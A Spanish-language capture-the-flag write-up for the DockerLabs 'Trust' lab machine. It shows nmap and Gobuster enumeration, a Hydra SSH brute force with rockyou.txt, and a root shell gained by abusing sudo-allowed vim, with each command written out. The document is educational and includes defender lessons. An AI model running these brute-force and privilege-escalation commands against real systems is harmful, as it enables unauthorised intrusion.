










# Trust — DockerLabs
 
**Dificultad:** Muy fácil | **SO:** Linux | **Fecha:** 2026-04-06  
**Autor del writeup:** [krinoxx](https://github.com/krinoxx)  
**Plataforma:** [DockerLabs](https://dockerlabs.es)
 
---
 
## Índice
 
1. [Reconocimiento](#reconocimiento)
2. [Enumeración web](#enumeración-web)
3. [Acceso inicial](#acceso-inicial)
4. [Escalada de privilegios](#escalada-de-privilegios)
5. [Lecciones aprendidas](#lecciones-aprendidas)
 
---
 
## Reconocimiento
 
Antes de lanzar cualquier herramienta, desplegamos la máquina en Docker y confirmamos que el objetivo está activo en `172.18.0.2` enviando tres paquetes ICMP:
 
```bash
sudo bash auto_deploy.sh trust.tar
ping -c 3 172.18.0.2
```
 

 
La máquina responde correctamente, confirmando conectividad. A continuación lanzamos un escaneo completo de puertos con `nmap` para identificar puertos abiertos y versiones de servicios. Usamos `-p-` para escanear los 65535 puertos, `-sV` para detectar versiones y `--min-rate 5000` para acelerar el escaneo:
 
```bash
nmap -p- -sV --min-rate 5000 172.18.0.2
```
 

 
**Resultado:**
 
| Puerto | Servicio | Versión |
|--------|----------|---------|
| 22/tcp | SSH | OpenSSH 9.2p1 Debian |
| 80/tcp | HTTP | Apache httpd 2.4.57 |
 
**Análisis:** Tenemos dos servicios expuestos. SSH requeriría credenciales para entrar directamente, así que empezamos explorando el servidor web en el puerto 80, donde podemos obtener información sin necesitar contraseñas.
 
---
 
## Enumeración web
 
Accedemos al servidor web desde el navegador:
 
```
http://172.18.0.2
```
 

 
Encontramos la página por defecto de Apache2 en Debian. Esto indica que no hay contenido visible en la raíz, pero puede haber directorios o archivos ocultos. Usamos **Gobuster** para hacer fuzzing de rutas. Empezamos con `common.txt`:
 
```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/dirb/wordlists/common.txt
```
 

 
No encontramos nada relevante. Ampliamos la búsqueda con `big.txt`:
 
```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/dirb/wordlists/big.txt
```
 

 
Seguimos sin resultados interesantes. Añadimos extensiones de archivo comunes con el flag `-x` para buscar scripts PHP, HTML y ficheros de texto:
 
```bash
gobuster dir -u http://172.18.0.2 -w /usr/share/dirb/wordlists/big.txt -x php,html,txt
```
 

 
Gobuster descubre el archivo `secret.php` con código de estado **200**. Lo abrimos en el navegador:
 
```
http://172.18.0.2/secret.php
```
 

 
La página muestra el mensaje **"Hola Mario, esta web no se puede hackear."** El desarrollador cometió un error clásico: dejó un nombre de usuario expuesto en una página que debería ser secreta.
 
✅ **Usuario descubierto: `mario`**
 
---
 
## Acceso inicial
 
Con el usuario `mario` y el puerto SSH abierto, realizamos un ataque de fuerza bruta con **Hydra** usando la wordlist `rockyou.txt`, instalada en Arch Linux mediante:
 
```bash
yay -S rockyou
# Ubicación: /usr/share/dict/rockyou.txt
```
 
```bash
hydra -l mario -P /usr/share/dict/rockyou.txt ssh://172.18.0.2 -t 4
```
 
| Parámetro | Significado |
|-----------|-------------|
| `-l mario` | Usuario fijo: mario |
| `-P /usr/share/dict/rockyou.txt` | Diccionario de contraseñas |
| `ssh://172.18.0.2` | Protocolo y objetivo |
| `-t 4` | 4 hilos paralelos (evita bloqueos por rate limiting) |
 

 
**Resultado:**
 
```
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
```
 
✅ **Credenciales encontradas: `mario:chocolate`**
 
Nos conectamos por SSH:
 
```bash
ssh mario@172.18.0.2
# Password: chocolate
```
 

 
Tenemos acceso a la máquina como el usuario `mario`.
 
---
 
## Escalada de privilegios
 
Una vez dentro, el primer comando que ejecutamos siempre es `sudo -l`. Este comando nos muestra qué binarios podemos ejecutar como root mediante sudo, sin necesidad de ser root todavía. Es el vector de escalada más sencillo y el primero que hay que comprobar:
 
```bash
sudo -l
```
 

 
**Resultado:**
 
```
(ALL) /usr/bin/vim
```
 
Mario puede ejecutar **vim como root sin contraseña**. Esto es un error de configuración crítico — vim es un editor de texto que permite ejecutar comandos del sistema operativo directamente desde su interfaz mediante el comando interno `:!`.
 
Consultamos **GTFOBins** (https://gtfobins.github.io/gtfobins/vim/#sudo), la base de datos de referencia para abusar de binarios Unix en escaladas de privilegios. La sección sudo de vim nos indica el siguiente comando:
 
```bash
sudo vim -c ':!/bin/sh'
```
 
| Parte | Significado |
|-------|-------------|
| `sudo vim` | Abre vim con privilegios de root |
| `-c ':!/bin/sh'` | Ejecuta el comando interno `:!` que lanza `/bin/sh` como root |
 

 
Verificamos nuestro nivel de privilegios:
 
```bash
whoami
# root
 
id
# uid=0(root) gid=0(root) groups=0(root)
```
 
✅ **Máquina comprometida completamente.**
 
---
 
## Lecciones aprendidas
 
### Desde el punto de vista del atacante
 
- **El fuzzing de directorios con extensiones es clave** — la página por defecto de Apache no significa que el servidor esté vacío. Sin `-x php,html,txt` no habríamos encontrado `secret.php`.
- **La información expuesta en páginas web es oro** — un simple nombre de usuario en una página "secreta" fue suficiente para orientar el ataque de fuerza bruta.
- **`sudo -l` siempre primero** — en CTFs de nivel fácil suele ser suficiente para escalar privilegios. No requiere herramientas externas y da resultados inmediatos.
- **GTFOBins es la referencia obligatoria** — cualquier binario con permisos sudo tiene casi con certeza una entrada en GTFOBins que explica cómo abusar de él.
 
### Desde el punto de vista del defensor
 
- **Nunca exponer información de usuarios en páginas web**, aunque estén en rutas "ocultas" — la seguridad por oscuridad no es seguridad.
- **Usar contraseñas robustas** en todos los servicios expuestos — `chocolate` es una contraseña que aparece en los primeros millones de entradas de rockyou.txt.
- **Auditar regularmente los permisos sudo** — ningún usuario debería poder ejecutar editores de texto como root. Usar `sudoedit` si realmente se necesita editar ficheros con privilegios elevados.
- **Implementar fail2ban** o similar para bloquear IPs que realicen múltiples intentos fallidos de autenticación SSH.
 
---
 
*Writeup realizado con fines educativos en un entorno controlado de DockerLabs.*
 
